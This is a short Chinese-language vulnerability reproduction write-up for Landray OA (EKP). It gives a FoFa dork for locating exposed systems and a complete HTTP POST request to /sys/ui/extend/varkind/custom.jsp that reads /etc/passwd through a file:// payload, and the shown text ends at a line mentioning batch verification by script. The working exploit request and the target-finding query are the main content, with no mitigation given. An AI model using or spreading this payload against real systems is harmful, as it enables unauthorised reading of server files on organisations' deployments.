


# 影响范围：
蓝凌OA（EKP）
# FoFa Dork
app="Landray-OA系统"
# 漏洞复现：
登录页面：

访问漏洞地址/sys/ui/extend/varkind/custom.jsp，使用burpsuite进行抓包，变更发包方式为POST，并添加POST数据，请求包如下：  
```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 44

var={"body":{"file":"file:///etc/passwd"}}
```
使用脚本批量验证：    
  